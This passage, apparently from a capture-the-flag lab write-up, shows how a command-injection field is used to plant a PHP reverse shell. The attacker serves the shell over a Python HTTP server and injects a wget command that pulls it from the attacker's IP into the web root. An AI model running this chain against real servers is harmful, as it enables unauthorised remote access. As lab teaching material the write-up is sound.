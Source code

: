 ![](/assets/images/Pasted image 20211121225027.png)

Other reverse shell commands give no response. It's time to change our strategy.

### Staged Payload

We'll use our file writing strategy to write a web shell to the server and execute it. Luckily Kali Linux has some prewritten webshells installed.

We can figure out the site uses PHP by looking at the site headers. The file `/usr/share/webshells/php/php-reverse-shell.php` contains a great reverse shell written in PHP. We just have to edit some values:

![](/assets/images/Pasted image 20211121225454.png)

We have to add our IP address (find this with `ip a` or `ifconfig [INTERFACE]`) and our listening port (in our case, `413`).

We can then start a Python HTTP server in the directory where the webserver is stored. This allows the target machine to make requests to our machine, which is serving the reverse shell file. If we use the command injection to run `wget`, we can write the webshell to the file system.

Start a Python webserver with the following command:

```bash
$ python3 -m http.server [PORT]
```

The server listens on port 8000 by default. On the Attack Box this port is already in use, so we'll use port 8001.

```bash
$ python3 -m http.server 8001
Serving HTTP on 0.0.0.0 port 8001 (http://0.0.0.0:8001/) ...
```

We can then submit the following `wget` command to the input field, using the `-O` flag to save the output to a specific file:

```
`wget http://10.10.113.99:8001/php-reverse-shell.php -O /var/www/html/rev.php`
```

We can see the target machine makes a HTTP GET request to our machine:

![](/assets/images/Pasted image 20211121225817.png)

Now, when we visit `/rev.php` in browser, the page 'hangs' while it attempts to load the file - this is usually a good sign, as it means some PHP code is running in the background:

![](/assets/images/Pasted image 20211121225903.png)

Sure enough, when we check our listener we have a shell!

![](/assets/images/Pasted image 20211121225935.png)

### Summary of Commands
